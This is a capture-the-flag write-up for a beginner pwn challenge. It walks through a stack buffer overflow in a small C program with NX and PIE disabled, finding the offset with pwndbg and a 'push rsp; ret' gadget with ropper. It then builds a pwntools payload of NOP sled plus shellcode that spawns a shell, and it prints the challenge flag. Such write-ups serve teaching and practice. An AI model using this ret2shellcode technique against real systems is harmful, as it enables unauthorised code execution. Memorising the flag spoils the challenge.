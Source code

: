 # [PWN] Blast From The Past
## Description
Cats and Guns takes a time machine and lands back 50 years in the future, where binary protections have yet to exist.

Hack into this program and prove your worth!

Author: Elma

nc challs.nusgreyhats.org 35123

## The Program
When we run the program, we are greeted with the following output:

![Program Output](./images/program_output.png)

The program takes in a single user input before printing out a few lines with our input included as part of the output. We can run `checksec` against the file to look at the compiler options used during compilation and other properties of the executable:

![Checksec Output](./images/checksec_output.png)

Notice that NX is disabled, which means that we can run code in memory. There is also no PIE so we do not need to worry about randomised addresses each time the program runs.

## Code Analysis
The source code provided for the challenge does not seem like much:

```c
#include <stdio.h>
#include <string.h>

void ignore_me() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
}

void pew_pew_90s() {
    printf("🔫 *pew pew* Retro laser gun fires! But it's still just a cat toy from the 90s...\n");
}

int main() {

	ignore_me();
	
    char retro_cat[32];
	int ver = 50004;
    
    printf("🕹️  BLAST TO THE PAST - Cyber Cat Defense %d! 🐱💾\n", ver);
    printf("Enter your retro cyber-cat's name, dude: ");
    
	scanf("%320s", retro_cat);
    
    printf("Radical! %s is locked and loaded with a sweet laser gun!\n", retro_cat);
    pew_pew_90s();
    
    return 0;
}
```

It literally asks for a user input using `scanf()` before printing it out using `printf()`. However, there is something important that we have to notice here, that is, the `retro_cat` variable we are writing into is a `char` array that holds 32 characters (inclusive of the null terminator). However, the `scanf()` function is reading up to 320 bytes of data into the variable, constituting a traditional buffer overflow vulnerability.

## Debugging the Program
Knowing that this is a buffer overflow challenge, typically, we should find out how many characters we can write before we start overwriting addresses. I will be using `pwndbg` as my debugger of choice.

In `pwndbg`, I will use the `r` command to run the program. When the program pauses to ask for user input, I will hit `[CTRL-C]` to enter `pwndbg`'s context menu, and use the `cyclic 100` command to generate a sequence of characters that I will use as my user input:

```
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

I will then use the `c` command to resume the program, paste in the input, which will cause a segmentation fault (as the return address has been overwritten with junk). Then, I will run the `cyclic -l <PATTERN>` command on the top 8 bytes from the stack. The top 8 bytes of the stack (RSP) holds the (overwritten) return address of the `main()` function, and the `cyclic -l` command will return the offset of our user input before this return address is overwritten.

![Cyclic Offset](./images/cyclic_offset.png)

As we can infer from the command's output, we can write 56 characters before reaching the return address of `main()`.

## Exploitation
So how do we go about getting the flag? For this, I will be using [pwntools](https://docs.pwntools.com/en/stable/) to create a script to make things easier for us. 

We inferred from `checksec` previously that NX is disabled, so ideally we should be able to run shellcode which we write to the stack. Let us focus on the payload. We know that we need to write 56 characters before reaching the return address, so let us start of with the following:

```python
exe = './challenge'
context.binary = elf = ELF(exe)

offset = 56
payload = flat(
    b'A' * offset,
    ???
)
```

Note that the `flat()` function is there to help us automatically handle endianness based on the context.

So what do we put next after the padding? What address do we overwrite `main()`'s return address with? For that, we need to look at ROP gadgets, which are small snippets of assembly codes that are already present within the program.

To find all the ROP gadgets, we can use the `ropper` tool:

```
ropper -f ./challenge --search "push rsp; ret"
```

![Ropper Output](./images/ropper_output.png)

The tool returned us a bunch of ROP gadgets? But which one do we use? We know that we can use the buffer overflow attack to write data to the stack, and also, the RSP register points to the top of the stack (lower memory address). After our ROP gadget is used, the RSP should point to the next item in the payload.

```python
payload = flat(
    b'A' * offset, # padding to reach return address
    gadget_address, # <-- return address of main
    next_payload # <-- RSP will point here next
)
```

So how can we use whatever I just said? Well, if the RSP is going to point at `next_payload` next, why not have `next_payload` be some shellcode to let us run whatever we desire?

But remember this: `gadget_address` is an address pointing at a ROP gadget. Whatever assembly code that ROP gadget contains should return us control later on to run our shellcode. If we look through the `ropper` output once more, we find this gadget: `0x00000000004011fc: push rsp; ret;`. What does `push rsp; ret;` do?

1. `push rsp` pushes the current stack pointer (RSP) onto the stack. At this point, RSP points to `next_payload`.
2. `ret` pops the address pushed by `push rsp` (now pointing to `next_payload`) and jumps to it.
3. **Result:** execution continues at `next_payload`.

So essentially, we are "building a bridge" towards the next instructions at `next_payload`.

Now then, what should `next_payload` be? Well, I like shells so it is going to be shellcode to spawn one in my case. Fortunately, we do not need to know how to write the shellcode, and we can pwntool's `shellcraft` module to help us do it:

```python
offset = 56
shellcode = asm(shellcraft.sh())

# ropper -f ./challenge --search "push rsp; ret"
push_rsp_ret = 0x4011fc

payload = flat(
    b'A' * offset,
    push_rsp_ret,
    shellcode
)
```

We are almost done here, but for running shellcode on the stack, we typically have what is known as a NOP sled. What a NOP sled is essentially is a sequence of assembly NOP instructions. A NOP instruction essentially does nothing. However, the purpose of having this NOP sled is that we cannot guarantee that our program will return execution to the exact address where our shellcode is, so we place this NOP sled right before a shellcode to act as a "slide". Thus, if for some reason the program's execution continues somewhere within the NOP sled, it will just cycle through NOP instructions and eventually land in our shellcode anyways.

```python
offset = 56
shellcode = asm(shellcraft.sh())

# ropper -f ./challenge --search "push rsp; ret"
push_rsp_ret = 0x4011fc

payload = flat(
    b'A' * offset,
    push_rsp_ret,
    asm('nop') * 16,
    shellcode
)
```

## Getting the Flag
Let us now run the completed script, which I have added to this repository (`solve.py`). If you are using my script, you can run it with `python solve.py REMOTE challs.nusgreyhats.org 35123` if you are testing it against the CTF server. For testing locally, you can use either `python solve.py` or `python solve.py GDB` (Debugging mode, might require modifying the terminal emulator and gdbscript). Do note that the `challenge` file must be within the same directory as the script for it to work.

Using the script, we can obtain a shell and read the contents of `flag.txt`.

![Flag](./images/flag_revealed.png)

**Flag:** `grey{traditional_ret2shellcode_exploits!}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Greyhats%20Welcome%20CTF%202025/Blast%20From%20The%20Past/solve.py)
